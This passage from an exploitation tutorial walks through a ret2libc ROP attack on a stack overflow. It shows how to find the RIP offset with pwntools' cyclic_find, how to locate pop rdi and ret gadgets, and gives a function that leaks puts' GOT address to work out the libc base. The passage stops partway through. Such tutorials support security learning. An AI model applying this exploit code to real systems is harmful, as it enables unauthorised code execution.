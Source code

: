 **Execute** `python template.py` a GDB console will be opened with the program being crashed. Inside that **GDB console** execute `x/wx $rsp` to get the **bytes** that were going to overwrite the RIP. Finally get the **offset** using a **python** console:

```python
from pwn import *
cyclic_find(0x6161616b)
```

![](../../.gitbook/assets/image%20%28188%29.png)

After finding the offset \(in this case 40\) change the OFFSET variable inside the template using that value.  
`OFFSET = "A" * 40`

## 2- Finding Gadgets

Now we need to find ROP gadgets inside the binary. This ROP gadgets will be useful to call `puts`to find the **libc** being used, and later to **launch the final exploit**.

```python
PUTS_PLT = elf.plt['puts'] #PUTS_PLT = elf.symbols["puts"] # This is also valid to call puts
MAIN_PLT = elf.symbols['main']
POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0] #Same as ROPgadget --binary vuln | grep "pop rdi"
RET = (rop.find_gadget(['ret']))[0]

log.info("Main start: " + hex(MAIN_PLT))
log.info("Puts plt: " + hex(PUTS_PLT))
log.info("pop rdi; ret  gadget: " + hex(POP_RDI))
```

The `PUTS_PLT` is needed to call the **function puts**.  
The `MAIN_PLT` is needed to call the **main function** again after one interaction to **exploit** the overflow **again** \(infinite rounds of exploitation\).It is used at the end of each ROP.  
The **POP\_RDI** is needed to **pass** a **parameter** to the called function.

In this step you don't need to execute anything as everything will be found by pwntools during the execution.

## 3- Finding LIBC library

Now is time to find which version of the **libc** library is being used. To do so we are going to **leak** the **address** in memory of the **function** `puts`and then we are going to **search** in which **library version** the puts version is in that address.

```python
def get_addr(func_name):
    FUNC_GOT = elf.got[func_name]
    log.info(func_name + " GOT @ " + hex(FUNC_GOT))
    # Create rop chain
    rop1 = OFFSET + p64(POP_RDI) + p64(FUNC_GOT) + p64(PUTS_PLT) + p64(MAIN_PLT)

    #Send our rop-chain payload
    #p.sendlineafter("dah?", rop1) #Interesting to send in a specific moment
    print(p.clean()) # clean socket buffer (read all and print)
    p.sendline(rop1)

    #Parse leaked address
    recieved = p.recvline().strip()
    leak = u64(recieved.ljust(8, "\x00"))
    log.info("Leaked libc address,  "+func_name+": "+ hex(leak))
    #If not libc yet, stop here
    if libc != "":
        libc.address = leak - libc.symbols[func_name] #Save libc base
        log.info("libc base @ %s" % hex(libc.address))
    
```